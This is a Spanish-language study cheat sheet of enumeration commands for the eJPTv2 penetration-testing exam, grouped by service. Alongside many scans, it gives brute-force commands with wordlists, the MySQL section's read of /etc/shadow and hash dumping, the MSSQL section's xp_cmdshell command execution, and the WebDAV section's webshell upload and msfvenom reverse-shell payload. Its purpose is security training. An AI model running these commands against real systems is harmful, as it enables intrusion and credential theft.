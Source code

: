 P# Documentación: Comandos de enumeración

## Descripción
Esta documentación proporciona una introducción básica de los comandos útlices para el examen EJPTv2

### FTP File Transfer Protocol - 21
El Protocolo de Transferencia de Archivos (FTP) es un estándar de red para transferir archivos entre sistemas, operando en el puerto 21. Aunque es antiguo y carece de seguridad, permite cargar y descargar archivos en servidores remotos

```python
nmap -p21 --script ftp-anon IP
wget -m --no-passive ftp://anonymous:anonymous@IP
sudo nmap -sV -p21 -sC -A IP
nc IP 21
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### Server Message Block (SMB) - 137,138,139,445
Server Message Block (SMB) es un protocolo de red que facilita el intercambio de archivos, impresoras y recursos entre sistemas. Opera en los puertos 137, 138, 139 y 445. A pesar de su utilidad, el puerto 445 es conocido por vulnerabilidades de seguridad.

```python
smbclient -N -L //IP (list shares)
nmap -sV -sC -p 445 IP
smbclient //IP/notes (connecting shares)
sudo nmap IP -sV -sC -p139,445
rpcclient -U "" IP (srvinfo, enumdomains, querydominfo, netshareenumall, enumdomusers)
smbmap -H IP -u "" -p "" (para revisar que permisos)
smbmap -H IP -u administrator -p smbserver_771 -x 'ipconfig'
smbmap -H IP -u Administrator -p 'smbserver_771' -r 'C$'
smbmap -H IP -u Administrator -p 'smbserver_771' --download 'C$\flag.txt'
crackmapexec smb IP --shares -u '' -p '' (revisar permisos)
./enum4linux-ng.py IP -A
enum4linux -u vagrant -p vagrant -U IP (enumerar usuarios)
nmap -p445 --script smb-protocols IP
nmap -p445 --script smb-security-mode IP
nmap -p445 --script smb-enum-sessions IP
nmap --script smb-os-discovery -p445 IP
enum4linux -r -u "admin" -p "password1" IP (obtener el ssid de los usuarios)
cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop

Tools: 
Psexec - conexión para smb que nos brinda shell
https://github.com/fortra/impacket/blob/master/examples/psexec.py
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_users.txt
/usr/share/wordlists/rockyou.tx
```

### Secure Shell (SSH) - 22
Secure Shell (SSH) es un protocolo de red seguro que permite la comunicación y el acceso remoto a sistemas mediante el cifrado de datos. Utiliza el puerto 22 para establecer conexiones seguras y autenticadas, garantizando la confidencialidad y la integridad de la información transmitida.

```python
nmap --script ssh2-enum-algos IP
nmap --script ssh-hostkey --script-args ssh_hostkey=full IP
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student" IP
find / -name "flag" (busca bandera)
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/common_passwords.txt
```

### HTTP - 80
Hypertext Transfer Protocol (HTTP) es el protocolo estándar de la web para la comunicación entre navegadores y servidores. Opera en el puerto 80, permitiendo la solicitud y transferencia de contenido web, como páginas, imágenes y otros recursos, a través de conexiones no cifradas.

```python
whatweb IP
http IP
dirb http://IP
nmap --script http-headers -sV -p 80 IP
nmap -sV -script banner IP
nmap –script http-enum -sV -p80 IP
nmap –script http-headers -sV -p80 IP
nmap --script http-methods --script-args http-methods.url-path=/webdav/ IP
curl http://IP/
auxiliary/scanner/http/apache_userdir_enum
auxiliary/scanner/http/brute_dirs
auxiliary/scanner/http/dir_scanner
auxiliary/scanner/http/dir_listing
auxiliary/scanner/http/http_put
auxiliary/scanner/http/files_dir
auxiliary/scanner/http/http_login
auxiliary/scanner/http/http_header
auxiliary/scanner/http/http_version
auxiliary/scanner/http/robots_txt
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/namelist.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_users.txt
```

### MYSQL 3306
MySQL es un sistema de gestión de bases de datos relacional ampliamente utilizado. Utiliza el puerto 3306 para permitir conexiones entre aplicaciones y bases de datos, facilitando el almacenamiento y recuperación eficiente de datos estructurados.

```python
select load_file("/etc/shadow");
mysql -h IP -u root
use auxiliary/scanner/mysql/mysql_hashdump
nmap --script=mysql-empty-password -p 3306 IP
nmap --script=mysql-info -p 3306 IP
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 IP
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### MSSQL - 1433
Microsoft SQL Server (MSSQL) es un sistema de gestión de bases de datos relacionales desarrollado por Microsoft. Opera en el puerto 1433, facilitando la comunicación entre aplicaciones y bases de datos, permitiendo el almacenamiento y acceso a datos estructurados, con énfasis en la integración con el ecosistema de Microsoft.

```python
nmap --script ms-sql-info -p 1433 IP
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 IP
nmap -p 1433 --script ms-sql-empty-password IP
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" IP -oN output.txt
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria IP
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" IP
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" IP
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
No hay en este caso
```

### WebDAV - 80/443
WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que permite la colaboración y la edición remota de archivos en servidores web. Opera en los puertos 80 y 443, posibilitando el acceso y la gestión de archivos a través de conexiones no cifradas (80) y cifradas (443) en entornos seguros.

```python
DavTest (tool) - valida que archivo se puede cargar
Cadaver (tool) - para cargar archivos 
nmap -p80 -sV --script http-enum IP (1)
Open site web (2)
davtest -auth bob:password_123321 -url http://IP/webdav/ (3)
cadaver http://IP/webdav/ (4) - autenticarse
put /usr/share/webshells/asp/webshell.asp (5) - subir la carga shell
more C:\flag.txt
Generar Shell Inverso
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1234 -f asp > shell.asp
use exploit/multi/handler or listen shell
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
No hay en este caso
```
